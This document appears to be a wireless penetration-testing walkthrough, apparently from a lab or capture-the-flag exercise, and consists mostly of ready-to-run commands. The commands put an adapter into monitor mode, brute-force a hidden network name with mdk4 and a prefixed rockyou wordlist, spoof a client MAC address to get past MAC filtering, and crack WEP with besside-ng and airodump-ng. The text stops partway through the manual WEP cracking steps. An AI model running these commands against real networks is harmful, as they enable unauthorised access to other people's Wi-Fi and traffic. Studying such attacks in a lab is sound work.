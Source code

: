 # Walkthrough
## Determine channel and monitoring traffic
```
sudo airmon-ng check kill && sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon -w ~/wifi/scan --manufacturer --wps --band abg
```

## Get ESSID of the hidden AP having no client connected
We assume here the ESSID is prefixed by wifi-
Pre-recquisis: 
- BSSID (AP mac address). Here F0:9F:C2:6A:88:26
- Channel. Here 11
```
sudo airmon-ng stop wlan0mon
sudo airmon-ng check kill && sudo airmon-ng start wlan0 
sudo iwconfig wlan0mon channel 11

cat ~/rockyou.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
sudo mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt
```

## Bypass auth with mac / Ip
```
sudo systemctl stop network-manager
sudo ip link set wlan2 down
sudo macchanger -m F0:9F:C2:71:22:10 wlan2


# retake ip address from dhcp
sudo wpa_supplicant -i wlan2 -c wifi.conf
sudo wpa_supplicant -i wlan2 -c wifi.conf -B #B for background

sudo dhclient -v wlan2

# or set static ip

#ip addr add 192.168.10.11/24 dev ewlan2

# up the interface
sudo ip link set wlan2 up
```

## Cracking and connecting WEP 
### Cracking WEP 
Prerequisites 
1. channel : Here 3
2. BSSID (mac address of AP) : Here F0:9F:C2:71:22:11
```
sudo airmon-ng check kill
sudo airmon-ng stop wlan0mon
sudo besside-ng -c 3 -b F0:9F:C2:71:22:11 wlan0 -v
```
### Cracking manually
Need 4 different terminal
```
sudo airodump-ng -c 3 --bssid F0:9F:C2:71:22:11 -w wifi/wifi-old wlan0mon

#generate extra data to the AP by launching  fake authentication at the same time (using fake client mac addr)
```